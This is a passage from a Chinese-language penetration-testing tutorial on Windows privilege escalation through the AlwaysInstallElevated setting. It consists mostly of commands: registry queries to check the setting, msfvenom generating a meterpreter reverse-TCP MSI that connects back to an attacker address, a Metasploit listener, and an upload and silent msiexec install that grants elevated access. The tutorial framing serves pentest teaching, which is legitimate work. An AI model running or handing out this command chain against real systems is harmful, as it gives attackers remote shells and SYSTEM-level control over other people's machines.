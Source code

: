 ![image-20241009142038732](https://image.201068.xyz/assets/38.后渗透/image-20241009142038732.png)

#### 查看注册表键值

执行以下命令，通过查看注册表键值来确定目标系统是否开启了 `AlwayslnstallElevated` 选项

```python
shell
chcp 65001

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

![image-20241009142226571](https://image.201068.xyz/assets/38.后渗透/image-20241009142226571.png)

### 2.2 创建恶意 MSI 并安装

#### 生成 MSI木马


确定目标系统存在该漏洞后，使用 MetaSploit 自动生成 MSI

```python
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.70.4 LPORT=6666 -f msi -o 6666.msi
```

![image-20241009142519478](https://image.201068.xyz/assets/38.后渗透/image-20241009142519478.png)

#### 监听连接

```python
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.70.4
set lport 6666
exploit
```

![image-20241009143359880](https://image.201068.xyz/assets/38.后渗透/image-20241009143359880.png)

#### 上传MSI 文件

在现有的 MetaSploit  会话中将创建的 MSI 文件上传到目标计算机

通过 `msiexec`  **运行 MSI 安装文件**，最终提权

```python
exit
upload /root/tools/msf/6666.msi 6666.msi

shell
chcp65001
msiexec /quiet /qn /i 6666.msi
```
